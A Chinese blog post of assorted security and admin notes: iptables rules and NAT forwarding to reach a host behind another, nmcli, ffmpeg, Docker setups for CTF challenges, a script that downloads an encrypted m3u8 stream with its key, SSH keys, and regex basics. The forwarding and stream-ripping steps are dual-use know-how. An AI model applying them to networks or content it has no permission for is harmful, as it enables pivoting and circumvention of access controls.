









title: 安全杂项(新增badusb代码)
author: John Jue
date: 2023-11-26 14:07:16
tags:
---
# 有用的小知识

## iptables
iptables 的结构：iptables -> Tables -> Chains -> Rules

### 规则、表和链

#### 规则
规则就是我们设置的那些个过滤的条件，一般规则是：如果数据包头满足这样的条件就这样处理数据包
规则指定了源地址、目的地址、传输协议（TCP\UDP\ICMP）、服务类型（HTTP\FTP\SMTP）等，昂数据包与规则匹配的时候，iptables 就根据定义的方法处理这些数据包，如：放行 accept、拒绝 reject、丢弃 drop 等

#### 链
链就是数据包传播的路径，每一条链中有一条或多条规则，数据包到达一条链时，iptables 就会从该链中的第一条规则开始检查，如果满足规则就根据这个规则定义的方法处理数据包，否则继续检查下一条规则，如果数据包不符合链中任何一条规则，iptables 就根据这条链预先定义的默认策略处理数据包

#### 表
默认有四个表 filter、NAT、Mangle、Raw

（1） 一个数据包进入网卡时，它首先进入 PREROUTING 链，内核根据数据包目的 IP 判断是否需要转发出去
（2） 如果数据包就是进入本机的，它就会沿着图向下移动，到达 INPUT 链。数据包到了 INPUT 链后，任何进程都会收到它。本机上运行的程序可以发送数据包，这些数据包会经过 OUTPUT 链，然后到达POSTROUTING 链输出
（3）如果数据包是要转发出去的，且内核允许转发，数据包就会如图所示向右移动，经过 FORWARD 链，然后到达 POSTROUTING 链输出



### 使用方法

`iptables -F`删除所有规则

`iptables -L -v -n`查看规则，其中还有个 -t 表示看哪个表，不指定默认是 filter


#### 防火墙

我们可以使用 python 启动一个 http 的服务器，监听在 80 端口，正常情况下是可以访问的
python2:`python -m  SimpleHTTPServer 80 `
python3:`python -m http.server 80`


使用 `iptables -t filter -A INPUT -j DROP -p tcp --dport 80`
-t filter 是指定 filter 表，-A 表示添加，INPUT 是添加的链，-j 表示规则，-p 表示协议（TCP\UDP\ICMP\...），--dport 表示端口，整条规则表示丢弃从 80 端口进来的流量
使用 `iptables -t filter -D INPUT 1`
-D 表示删除，INPUT 表示删除的链，1 表示链上第一条规则（如果不知道规则，使用 `iptables -L --line-numbers`）



也可以指定某个 IP 不能访问 80 端口：
`iptables -t filter -A INPUT  -s 192.168.1.20 -j DROP -p tcp --dport 80`



恢复及删除即可


指定某个 IP 能访问，其他 IP 不能访问
·iptables -t filter -A INPUT  -s 192.168.127.128 -j ACCEPT -p tcp --dport 80·
·iptables -t filter -A INPUT  -j DROP -p tcp --dport 80·
因为匹配顺序是从上往下的，所以如果这个顺序反过来就先匹配到了全都 DROP，直接就给丢弃了，哪怕是 192.168.2.1（白名单） 也不行


有的时候使用 `iptables -L -n` 看的不全，比如如果看到有一条
ACCEPT     all  --  0.0.0.0/0        0.0.0.0/0
结果怎么都访问不到，可能是你有个参数没看到，使用 iptables -L -nv 看的仔细一点会发现，in 上有个 lo 表示本地回环，所以白搭
```
 pkts bytes target     prot opt in     out     source               destination         
   28  4801 ACCEPT     all  --  lo      *       0.0.0.0/0            0.0.0.0/0      
```
比如下面这个场景
```
iptables -t filter -I INPUT -s 192.168.127.128 -j ACCEPT -p tcp --dport 80
iptables -t filter -A INPUT -i lo -j ACCEPT -p all
iptables -t filter -A INPUT -j REJECT --reject-with icmp-net-unreachable
```
这种情况下第一条说的是 192.168.127.128 能访问到我们的 80 端口，第二条表示本地回环的随便访问，第三条表示其他主机一律回应 icmp-net-unreachable


此时查看 iptables 效果如下
```
root@research:~# iptables -L -vn
Chain INPUT (policy ACCEPT 0 packets, 0 bytes)
 pkts bytes target     prot opt in     out     source               destination         
   11  1281 ACCEPT     tcp  --  *      *       192.168.127.128      0.0.0.0/0            tcp dpt:80
    0     0 ACCEPT     all  --  lo     *       0.0.0.0/0            0.0.0.0/0           
    0     0 REJECT     all  --  *      *       0.0.0.0/0            0.0.0.0/0            reject-with icmp-net-unreachable
----------------------------------------------------------------------------------------------------------------
root@research:~# iptables -L -n
Chain INPUT (policy ACCEPT)
target     prot opt source               destination         
ACCEPT     tcp  --  192.168.127.128      0.0.0.0/0            tcp dpt:80
ACCEPT     all  --  0.0.0.0/0            0.0.0.0/0           
REJECT     all  --  0.0.0.0/0            0.0.0.0/0            reject-with icmp-net-unreachable
```
#### 流量转发
网络情况如下，我们的电脑是 PC，可以访问 A 设备，但是访问不到 B 设备


在 A 设备上使用 iptables 进行流量的转发，使得 PC 可以通过 A 设备登录到 B 设备的 SSH
这里转发的时候要使用 nat 这个表，PREROUTING 链是流量首先进入的链，经过这个链的处理再干别的，所以我么在这条链上新建了一个规则，把去 192.168.127.170 的 6666 端口的流量修改目的地址为 192.168.47.131:22
```
iptables -t nat -A PREROUTING -d 192.168.127.170 -p tcp --dport 6666 -j DNAT --to-destination 192.168.47.131:22
```
然后通过 nat 表 POSTROUTING 链把去往 192.168.47.131:22 的源地址改为 192.168.47.129
```
iptables -t nat -A POSTROUTING -d 192.168.47.131 -p tcp --dport 22 -j SNAT --to-source 192.168.47.129
```
上面两条规则实际上就是把流量包里面的源地址和目的地址全都改了，这样来看就成了 192.168.47.129 在和 192.168.47.131 通信了
另外我们把流量包都给改了，数据包出了 PREROUTING 链之后是根据目标地址选择去向的，如果是本机地址那就进入 INPUT 链，如果是其他地址就进入 FORWARD 链，因为我们改了目标地址，所以会进入到 FORWARD 链，而这个链默认会拒绝所有的地址，所以我们得加上一个 192.168.47.131 的 ACCEPT
```
iptables -I FORWARD 1 -d 192.168.47.131 -p tcp --dport 22 -j ACCEPT
iptables -I FORWARD 2 -s 192.168.47.131 -p tcp --sport 22 -j ACCEPT
```
换台电脑，win7，IP 是 192.168.47.130 ，尝试通过端口转发，使用 192.168.127.170 连一下远程桌面
```
iptables -t nat -A PREROUTING -d 192.168.127.170 -p tcp --dport 9999 -j DNAT --to-destination 192.168.47.130:3389
iptables -t nat -A POSTROUTING -d 192.168.47.130 -p tcp --dport 3389 -j SNAT --to-source 192.168.47.129
iptables -I FORWARD 1 -d 192.168.47.130 -p tcp --dport 3389 -j ACCEPT
iptables -I FORWARD 2 -s 192.168.47.130 -p tcp --sport 3389 -j ACCEPT
```


## nmcli命令行连接wifi

使用 nmcli 时，NetworkManager 必须保持开启
```
查看运行状态：systemctl status NetworkManager
启动：systemctl start NetworkManager
重启：systemctl restart NetworkManager
关闭：systemctl stop NetworkManager
查看是否开机启动：systemctl is-enabled NetworkManager
开机启动：systemctl enable NetworkManager
禁止开机启动：systemctl disable NetworkManager
```
扫描 wifi
```
sudo nmcli dev wifi
```


连接 wifi，默认使用最后的 wifi 网卡，比如有 wlan0 和 wlan1 的话就用的 wlan1
```
sudo nmcli dev wifi connect "TP-LINK" password "123456789"
```
可以使用 ifname wlan0 指定无线网卡
```
sudo nmcli dev wifi connect "TP-LINK" password "123456789" ifname wlan0
```
查看连接的信息
```
nmcli con show
```


删除连接
```
sudo nmcli con del 连接的uuid
```

## ffmpeg（视频处理）
多媒体视频处理工具 FFmpeg 有非常强大的功能包括视频采集功能、视频格式转换、视频抓图、给视频加水印
### 裁剪视频
`ffmpeg -ss 00:00:00 -i 1.mp4 -c copy -to 00:04:33 2.mp4`
视频 1.mp4 从 00:00:00 开始到 00:04:33 位置，保存为新的 2.mp4
这里的 -to 表示想要截取到原视频的位置，使用 -t 是表示往后截取多少秒
### 合并视频
首先在文件夹下建立一个 txt ，内容格式如下：（按照想要拼接的顺序）
`file '1.mp4' `
`file '2.mp4'`
执行这串命令就可以了
`ffmpeg -f concat -i test.txt -c copy output.mp4`
### mp4 转 GIF
`ffmpeg -ss 1 -t 10 -i yichen.mp4 -s 1920*1080 -r 15 res.gif`
-s：设定分辨率
-ss 1 -t 10：从第 1 秒开始，往后截取 10 秒钟
-r：设定帧数 15 
### mp4 转 mp3
`ffmpeg -i foo.mp4 foobar.mp3`

## CTF出题

### pwn
直接用打包好的镜像，把二进制文件命名为 pwn：
Dockerfile:
```
FROM glzjin/pwn_base_16
COPY pwn /pwn/pwn
```
glzjin/pwn_base_16 代表 Ubuntu 16.04，glzjin/pwn_base_18 代表 Ubuntu 18.04
glzjin/pwn_base_19 代表 Ubuntu 19.04，glzjin/pwn_base_20 代表 Ubuntu 20.04

然后：`docker build -t 名字 .`
例如：`docker build -t pwn1 .`

### web
整体结构：files 是个文件夹中有 flag.sh 和 html 文件夹，html 是题目源码
```
docker-compose.yml
Dockerfile
files--|
	  |--flag.sh
      |--html--|
               |--index.php
               |--flag.php
```
首先当然是题目了，就完整的写好题目就可以啦，放在一个 html 文件夹里
flag 自定义一个特殊的后面用，这里使用 `flag{dockerflag}`，后面会自动替换

然后写一个 flag.sh 用来动态生成密码，使用 sed 去 flag.php 查找 flag{dockerflag} 然后替换为 ctfd-whale 自动生成的 $FLAG，最后删掉这个文件，sed 查找的目录根据需要自己写
```
sed -i "s/flag{dockerflag}/$FLAG/" /var/www/html/flag.php
export FLAG=not_flag
FLAG=not_flag

rm -f /flag.sh
```
如果是 sql 注入这类的题，需要写到数据库中
```
#!/bin/bash

# 修改数据库中的 FLAG，自定义sql语句把
mysql -e "USE ctf;INSERT INTO Flag VALUES('$FLAG');" -uroot -proot

export FLAG=not_flag
FLAG=not_flag

rm -f /flag.sh
```
然后编写 Dockerfile
```
FROM ctftraining/base_image_nginx_mysql_php_73
#这里自己选择基础镜像

COPY ./files /tmp/
RUN cp -rf /tmp/html /var/www/ \  #把题目复制到 /var/www
    && cp -f /tmp/flag.sh /flag.sh \  #强制拷贝flag.sh到根目录
    && chown -R www-data:www-data /var/www/html \ #设置权限
```
docker-compose.yml 里面的端口以及 flag 都会随机生成，没必要，倒是可以用来生成镜像
`docker-compose up -d`
```
version: "2"

services:

  web:
    build: .
    image: pwn1
    restart: always
    ports:
      - "127.0.0.1:8302:80"
    environment:
      - FLAG=flag{123}
```
由于ctftraining/base_image_nginx_mysql_php_73基础镜像中有写，所以把flag.sh放到根目录下之后会自动运行

报错：
```
ERROR: The Compose file './docker-compose.yml' is invalid because: networks.frp_containers value Additional properties are not allowed ('attachable' was unexpected)
```
解决：将 docker-compose.yml 开头的版本改为 3.3

## m3u8下载转mp4
m3u8 包含了若干个 ts 文件的名称，按播放顺序有序排列，还包括版本、是否加密等信息
网站上直接 F12，看一下网络，里面有 m3u8 文件，直接复制 url 到浏览器就能下载，还有个 enc.key


下载下来之后是这样的


把所有的 .ts 文件提取出来，合成每个 .ts 文件的 url 存在一个 .txt 中
```
url = 'url地址，自己替换'
f = open("index.m3u8", encoding='gb18030', errors='ignore')
lines = f.readlines()
new=[]
for line in lines:
	if '.ts' in line:
		line = url + line;
		new.append(line)
file_out=open('out.txt','w', encoding='gb18030', errors='ignore')
for line in new:
	file_out.writelines(line)
file_out.close()
```
使用 wget 下载 url 中存放的 .ts 文件
```
wget --content-disposition --trust-server-names -i out.txt
```
用脚本把 .m3u8 中的文件改成本地的文件位置（前面加个 ./）
```
f = open("./index.m3u8", encoding='gb18030', errors='ignore')
lines = f.readlines()
new=[]
for line in lines:
	if '.ts' in line:
		line = './' + line;
	new.append(line)
file_out=open('out.m3u8','w', encoding='gb18030', errors='ignore')
for line in new:
	file_out.writelines(line)
file_out.close()
```


然后用 ffmpeg 直接输出就行了
```
ffmpeg -allowed_extensions ALL -i out.m3u8 -c copy out.mp4
```



### 综合脚本
用的 wsl（kali），需要安装 ffmpeg 和 wget
```py
import os
import time
import requests

url = 'http://127.0.0.1/videos/f5ac593aa49b944b15916585edbe0cbd/'
urlm3u8 = 'http://127.0.0.1/videos/f5ac593aa49b944b15916585edbe0cbd/f5ac593aa49b944b15916585edbe0cbd.m3u8'
urlkey = url + 'enc.key'

############# 下载m3u8与key文件 #############
r = requests.get(urlm3u8) 
with open("index.m3u8",'wb') as f:
    f.write(r.content)

r = requests.get(urlkey) 
with open("enc.key",'wb') as f:
    f.write(r.content)
time.sleep(1)

############# 提取m3u8中的ts文件url到out.txt #############
f = open("index.m3u8", encoding='gb18030', errors='ignore')
lines = f.readlines()
new=[]
for line in lines:
	if '.ts' in line:
		line = url + line;
		new.append(line)
file_out=open('out.txt','w', encoding='gb18030', errors='ignore')
for line in new:
	file_out.writelines(line)
file_out.close()
time.sleep(1)

############# 下载out.txt中的ts文件 #############
os.system("wget --content-disposition --trust-server-names -i out.txt")
time.sleep(1)

############# 把m3u8中的ts、key文件路径改为本地 #############
f = open("./index.m3u8", encoding='gb18030', errors='ignore')
lines = f.readlines()
new=[]
for line in lines:
	if 'enc.key' in line:
		temp1=line[0:31]
		temp2=line[85:132]
		line = temp1 + './' + temp2
	if '.ts' in line:
		line = './' + line;
	new.append(line)
file_out=open('out.m3u8','w', encoding='gb18030', errors='ignore')
for line in new:
	file_out.writelines(line)
file_out.close()
time.sleep(1)

############# 使用ffmpeg解密合并为out.mp4 #############
os.system("ffmpeg -allowed_extensions ALL -i out.m3u8 -c copy out.mp4")
```
## Docker相关

### 基础命令
启动  
`systemctl start docker`

守护进程重启
`systemctl daemon-reload`

重启 docker 服务
`systemctl restart docker  /  service docker restart`

关闭
`docker service docker stop / docker systemctl stop docker`

运行一个容器，命名为ctf
`docker run -d -p 10001:80 --name ctf apacje`

挂载目录
`-v /root/:/root/`

进入容器里面，开一个bash
`docker exec -it id /bin/bash`

重启容器
`docker restart id`

关闭容器
`docker stop id`

删除容器
`docker rm/rmi -f id`

通过提交一个镜像
`docker commit id ctf`

把镜像提交到 dockerhub 上
`docker login （登录）`
`docker push 镜像名`

查看运行的docker
`docker ps`

重命名一下
`docker rename 原容器名  新容器名`

### 搭建web环境

拉取一个apache-php5
`docker pull registry.cn-hangzhou.aliyuncs.com/lxepoo/apache-php5`

运行
`docker run -d -p 2027:80 registry.cn-hangzhou.aliyuncs.com/lxepoo/apache-php5`

把题目复制到/var/www目录下面
`docker cp ./web2 0c7b9ddc107a:/var/www`

出现这些问题使用 chmod 777 文件名 给权限
```
Warning: Unknown: failed to open stream: Permission denied in Unknown on line 0
Fatal error: Unknown: Failed opening required '/var/www/index.php' (include_path='.:/usr/local/lib/php') in Unknown on line 0
```
### 搭建pwn环境

这样可以在实体机单个匹配一条命令
socat tcp-l:8887,fork exec:./pwn1

有个更好的方法：
把文件下载下来
`git clone https://github.com/giantbranch/pwn_deploy_chroot.git`
然后把所有题目直接改好名字，放在 bin 文件夹
运行 `python initialize.py` 分配好 flag，会把分配的 flag 放在 flags.txt
运行 `docker-compose up --build -d `
同时每个题目对应的端口也会放在 flags.txt
改 config.py 这个选项为 True 可以使用 cat flag 代替 /bin/sh 提高安全性
Python
复制代码
1
2
```
# Whether to replace /bin/sh
REPLACE_BINSH = False
```
### 复现环境
安装 docker-compose
`sudo apt install docker-compose`
拉起环境
`docker-compose up -d`
docker-compose.yml 中查看端口，访问即可
出现AttributeError: 'module' object has no attribute 'SSL_ST_INIT'问题：
解决：
`rm -rf /usr/lib/python2.7/dist-packages/OpenSSL`
`rm -rf /usr/lib/python2.7/dist-packages/pyOpenSSL-0.15.1.egg-info`
`sudo pip install pyopenssl`

## ssh配置与使用
我的环境：
parrot：用户名：chen，ip：192.168.149.132
ubuntu：用户名：yichen，ip：192.168.149.138



### ssh安装

一般都自带了
`sudo apt-get install openssh-client`
`sudo apt-get install openssh-server`

### 开启服务

`sudo /etc/init.d/ssh start`

相关：
`sudo /etc/init.d/ssh stop `      server停止ssh服务  
`sudo /etc/init.d/ssh restart `      server重启ssh服务

### 密码连接

`ssh root@192.168.149.132`   默认端口：22
如果需要指定端口可以使用：`ssh root@192.168.149.132 -p 1234`

第一次连接会出现：
意思是，该远程主机的真实性无法确定，其公钥指纹为 cxt65U8MP/XOzyxCsBSR7/kwxvsYmOl/Hgr/Mjs0FZ4，确定想要继续连接吗？


输入：yes 继续，同意之后远程主机的公钥会保存在 $HOME/.ssh/known_hosts 中，当下次连接的时候就可以直接跳过确认部分，直接输入密码
再输入想要链接的主机的 password


连接成功，可以操作了



### 密钥连接
每次输入密码很麻烦，所以可以使用公钥登录，用户将自己的公钥存储在远程主机上面，登陆的时候远程主机会向用户发送一段随机字符串，用户用私钥加密之后再将加密后的发送给主机，如果主机能够用公钥解密成功则可以连接

使用 `ssh-keygen` 生成公钥和私钥，第一次要求输入的是生成在什么地方，默认：/root/.ssh/ 目录下生成 id_rsa.pub 和 id_rsa，分别是公钥和私钥，输入想要给的名字的话会在当前目录生成输入的名字
第二次和第三次等待输入的时候设置的是密钥的密码，可以直接回车就没有密码了，有密码双重保险


生成的id_rsa和id_rsa.pub
默认情况下运行结束以后在 /root/.ssh 目录下面会生成两个新文件：id_rsa.pub 和 id_rsa，分别是公钥和私钥
使用 `ssh-copy-id root@host` 就可以把公钥发送到 host 主机，这样就可以使用密钥登陆了，连接的时候就不用输入密码了

## 正则
参考：http://deerchao.net/tutorials/regex/regex.htm
https://www.cnblogs.com/kevin-yuan/archive/2012/09/25/2702167.html

正则可视化：https://regexper.com/
```
通常在//里面
^ 开始         $ 结束    /^  $/
\b \bhi\b  代表着单词的开头和结尾（匹配结果是单独的：hi）
. 匹配除了换行符以外的任意字符 
* 前边的内容可以连续重复任意次
+ 重复一次或更多次
? 重复零次或一次
{} 如果想连续匹配8次，{8}，{5,12} 必须是 5-12 次
\d 匹配的是任意的数字
\s 匹配任意空白符（包括空格、制表符、换行符、全角空格）
\w 匹配字符字母或数字或下划线或汉字
如果开启了处理多行的工具，^ $ 就变成了匹配行的开始和结束处
如果想要查找 . 或 * 时会被认为元字符，可以使用转义 \ （查找 \ 本身也要转义 \\）
[yichen] 匹配里面任意一个字母

例子：匹配 (010)88886666 或 022-23234567 或 05412367541 等格式的电话号码
\(?0\d{2}[) -]?\d{8}
首先是 ( 匹配零次或一次 ?，然后是一个 0，再是两个数字，然后是 ) - 中的任意一个，后面再跟 8  
有个问题，会出现010)13293610 这种明显不正确的格式
要解决这种问题需要用 | 把不同的规则分隔开

0\d{2}-\d{8}|0\d{3}-\d{7} 表示的是：23-79541357 和 213-4851247
\(0\d{2}\)[- ]?\d{8}|0\d{2}[- ]?\d{8} 表示的是：(024)-14765423 或 043-54761258（也可以没有-或者空格）
需要注意的是使用分支条件时，会从左向右的测试每一个条件，如果满足了一个分支的话，就不会管其他条件了
这就意味着：\d{5}|\d{5}-\d{4}，只会匹配前五位

如果想重复多个字符的话可以用小括号指定子表达式
(\d{1,3}\.){3}\d{1,3} 可以用来匹配 IP 地址，\d{1,3} 匹配1-3位数字，\. 是转义，直接显示 . ，(\d(1,3)\.){3} 会匹配三个数字加一个点这种形式3次，最后再加上1-3位数字
然而这样的还是会匹配到 500.900.456.852 这样的，但是这则表达式中不提供算数比较，所以只能使用冗长的分组进行描述：((2[0-4]\d|25[0-5]|[0-1]?\d\d?)\.){3}(2[0-4]\d|25[0-5}|[0-1]?\d\d?)

如果需要查找不属于某个能简单定义的字符类的字符，比如想查找除了数字之外，其他任意字符都行
可以使用转义：
\W 匹配任意不是字母、数字、下划线、汉字的字符
\S 匹配任意不是空白符的字符   \S+ 匹配不包含空白符的字符串
\D 匹配任意非数字的字符
\B 匹配不是单词开头或结束的字符
[^x] 匹配除了 x 以外的任意字符
[^ aeiou] 匹配除了 aeiou 这几个字母以外的任意字符
<a[^>]+> 匹配尖括号括起来的以 a 开头的字符串

向后引用：使用小括号制定一个子表达式之后，匹配这个子表达式的文本可以在表达式或其它程序中作进一步引用处理。默认情况下，每个分组会自动拥有一个组号，规则：从左向右，以分组的左括号为标志，第一个出现的的分组组号为1，第二个为 2，以此类推，\1 代表分组 1 匹配的文本（分组 0 代表着整个正则表达式）

\b(\w+)\b\s+\1\b 首先是一个字母，然后是任意字符一次或多次，再是一个字母，然后是一个或任意多个空白符，到这里就用到了分组 1，也就是 (\w+) 匹配到的任意字符

也可以自己定义子表达式的组名：(?<Word>\w+) 把尖括号换成 ' 也可以，这样就把 \w+ 的组名指定成了 Word 了，要使用这个分组可以使用 \k<Word> 
```

| 分类     | 代码/语法     | 说明     |
| -------- | -------- | -------- |
|捕获|`(exp)`|匹配exp，并捕获文本到自动命名的组里|
|捕获|`(?<name>exp)`|匹配exp，并捕获文本到名称为name的组里面，也可以写成 (?'name'exp)
|捕获|`(?:exp)`|匹配exp，不捕获匹配的文本，也不给此分组分配组号
|零宽断言|`(?=exp)`|匹配exp前面的位置
|零宽断言|`(?<=exp)`|匹配exp后面的位置
|零宽断言|`(?!exp)`|匹配后面跟的不是exp的位置
|零宽断言|`(?<!exp)`|匹配前面不是exp的位置
|注释|`(?#comment)`|这种类型的分组不对正则表达式的处理产生任何影响，用于提供注释让人阅读

```
 //修正符:i 不区分大小写的匹配; 

         //如:"/abc/i"可以与abc或aBC或ABc等匹配;
//修正符：g表示全局匹配
    //修正符:m 将字符串视为多行,不管是那行都能匹配; 

       例://模式为:$mode="/abc/m"; 
         //要匹配的字符串为:$str="bcefg5e\nabcdfe" 
             //注意其中\n,换行了;abc换到了下一行; 
         //$str和$mode仍可以匹配,修正符m使得多行也可匹配; 
    //修正符:s 将字符串视为单行,换行符作为普通字符; 

       例://模式为:$mode="/pr.y/"; 
           //要匹配字符串为:$str="pr\ny"; 
